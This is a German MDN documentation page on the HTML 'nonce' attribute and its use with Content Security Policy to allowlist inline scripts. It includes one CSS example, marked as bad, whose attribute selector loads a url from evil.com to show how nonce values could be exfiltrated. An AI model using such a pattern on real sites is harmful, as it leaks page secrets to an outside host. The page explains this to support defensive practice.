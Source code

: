 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
l10n:
  sourceCommit: 926f83641b980fcda58914649748b0368eeca1cd
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Global_attributes) ist ein Inhaltsattribut, das eine kryptografische Nonce ("number used once", Zahl, die nur einmal verwendet wird) definiert. Es kann von der [Content Security Policy](/de/docs/Web/HTTP/CSP) verwendet werden, um festzulegen, ob ein bestimmter Abruf für ein gegebenes Element erlaubt wird oder nicht.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um bestimmte Elemente, wie zum Beispiel ein bestimmtes Inline-Skript oder Stil-Elemente, auf eine Positivliste zu setzen. Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/CSP) `unsafe-inline`-Direktive zu vermeiden, die _alle_ Inline-Skripte oder -Stile auf eine Positivliste setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keinen anderen Weg haben, als unsichere Inline-Skript- oder -Stilinhalte zu verwenden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, können Sie stattdessen auch einen CSP-Hash verwenden. (Siehe Anwendungshinweise zu [unsicheren Inline-Skripten](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/CSP)-Schutzmechanismen zu nutzen und Nonces oder unsichere Inline-Skripte wann immer möglich zu vermeiden.

### Verwendung von nonce zur Positivliste eines \<script>-Elements

Es gibt einige Schritte, um ein Inline-Skript mit dem Nonce-Mechanismus auf eine Positivliste zu setzen:

#### Werte generieren

Von Ihrem Webserver aus generieren Sie einen zufälligen Base64-codierten String mit mindestens 128 Bits Daten aus einem kryptografisch sicheren Zufallszahlengenerator. Nonces sollten jedes Mal neu generiert werden, wenn die Seite geladen wird (Nonce nur einmal!). Zum Beispiel in Node.js:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Inline-Skript auf die Positivliste setzen

Die im Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf eine Positivliste setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Eine Nonce mit einem CSP-Header senden

Schließlich müssen Sie den Nonce-Wert in einem [`Content-Security-Policy`](/de/docs/Web/HTTP/Headers/Content-Security-Policy)-Header senden (fügen Sie `nonce-` voran):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Verbergen der Nonce

Aus Sicherheitsgründen ist das `nonce`-Inhaltsattribut verborgen (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce)-Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Das Verbergen der Nonce hilft, Angreifern zu verhindern, dass sie Nonce-Daten über Mechanismen exfiltrieren, die Daten aus Inhaltsattributen erhalten können:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
